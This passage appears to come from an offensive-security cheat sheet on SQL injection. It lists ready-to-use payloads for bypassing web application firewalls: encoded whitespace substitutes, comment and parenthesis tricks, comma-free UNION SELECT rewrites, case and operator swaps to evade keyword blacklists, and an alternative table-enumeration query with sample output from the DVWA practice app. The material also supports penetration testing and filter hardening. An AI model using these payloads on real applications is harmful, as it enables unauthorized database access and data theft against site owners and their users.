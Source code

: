 ```sql
After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!
```

## WAF Bypass

No Space (%20) - bypass using whitespace alternatives

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```sql
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```sql
?id=(1)and(1)=(1)--
```

No Comma - bypass using OFFSET, FROM and JOIN

```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

Blacklist using keywords - bypass using uppercase/lowercase

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator

```sql
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

Information_schema.tables Alternative

```sql
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
```